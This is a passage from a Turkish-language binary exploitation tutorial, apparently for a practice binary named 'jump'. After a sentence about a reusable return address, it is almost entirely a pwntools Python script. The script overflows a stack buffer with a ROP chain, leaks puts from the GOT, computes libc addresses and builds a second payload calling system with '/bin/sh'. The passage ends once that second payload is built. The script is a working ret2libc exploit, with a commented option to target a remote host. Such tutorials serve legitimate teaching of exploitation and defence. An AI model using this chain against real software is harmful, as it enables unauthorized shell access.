 0x80484f2 adresi bizim için çok iyi olur. Hem EBP’den adresi kullanacağı için verdiğimiz adres writable olacak. Açık tekrar tetiklenmiş olacak. Her şey hazır olduğuna göre exploiti tamamen yazalım:

```python
from pwn import *
import os
import posix
from struct import *

puts_plt = 0x08048390
puts_got = 0x08049ff0

fake_main = 0x80484f2
ebp_address = 0x804a3f0


rop = ""
rop += p32(ebp_address)        # EBP address
rop += p32(puts_plt)        # puts PLT
rop += p32(fake_main)        # fake exit
rop += p32(puts_got)        # puts GOT

payload = "A"*40 + rop    # 4 byte EBP

prog = os.path.abspath("./jump")

#p = remote("localhost", 8181) if want to test on remote
p = process(prog)


print p.recv(15)    # "Deger giriniz:\n"

p.sendline(payload)

leak = p.recv(4)

puts_libc = u32(leak)
log.info("puts@libc: 0x%x" % puts_libc)
p.clean()

offset_system = 0x0003d870
offset_str_bin_sh = 0x17c968
offset_exit = 0x00030c30
offset_puts = 0x00067e40



libc_base = puts_libc - offset_puts
system_addr = libc_base + offset_system
binsh_addr = libc_base + offset_str_bin_sh
exit_addr = libc_base + offset_exit

log.info("libc base: 0x%x" % libc_base)
log.info("system@libc: 0x%x" % system_addr)
log.info("binsh@libc: 0x%x" % binsh_addr)
log.info("exit@libc: 0x%x" % exit_addr)

rop2 = p32(ebp_address)
rop2 += p32(system_addr)
rop2 += p32(exit_addr)
rop2 += p32(binsh_addr)


payload2 = "A"*40 + rop2
```